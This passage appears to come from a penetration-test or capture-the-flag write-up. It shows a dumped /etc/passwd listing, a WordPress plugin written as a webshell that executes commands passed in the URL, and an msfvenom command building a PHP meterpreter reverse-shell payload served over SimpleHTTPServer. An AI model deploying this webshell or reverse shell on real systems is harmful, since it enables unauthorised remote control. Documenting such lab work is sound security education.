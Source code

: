 proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:107::/var/run/dbus:/bin/false
colord:x:104:109:colord colour management daemon,,,:/var/lib/colord:/bin/false
whoopsie:x:105:112::/nonexistent:/bin/false
avahi:x:106:115:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
bind:x:107:117::/var/cache/bind:/bin/false
postfix:x:108:118::/var/spool/postfix:/bin/false
dovecot:x:109:120:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:110:65534:Dovecot login user,,,:/nonexistent:/bin/false
landscape:x:111:121::/var/lib/landscape:/bin/false
libvirt-qemu:x:112:106:Libvirt Qemu,,,:/var/lib/libvirt:/bin/false
libvirt-dnsmasq:x:113:123:Libvirt Dnsmasq,,,:/var/lib/libvirt/dnsmasq:/bin/false
sshd:x:114:65534::/var/run/sshd:/usr/sbin/nologin
postgres:x:115:124:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
tomcat6:x:116:126::/usr/share/tomcat6:/bin/false
wpadmin:x:1001:1001::/home/wpadmin:/bin/sh
{% endhighlight %}

Still no way to get a password.

Next I realized as an administrator I can install plugins.  So I made a simple webshell:

{% highlight php %}
<?php
/*
 * Plugin Name: backdoor
 * Plugin URI: https://www.com
 * Description: backdoor
 * Version: 1.0.0
 * Author: backdoor
 * Author URI: http://www.com
 * Text Domain: backdoor
 * Domain Path: /languages
 * */

echo system($_GET["cmd"]); 
?>
{% endhighlight %}

Once actived I was able to execute code. Now for a meterpreter payload and serve it up with SimpleHTTPServer

{% highlight bash %}
msfvenom -p php/meterpreter/reverse_tcp LHOST=111.111.111.111 LPORT=444 R > backdoor.php
pythom -m SimpleHTTPServer
{% endhighlight %}
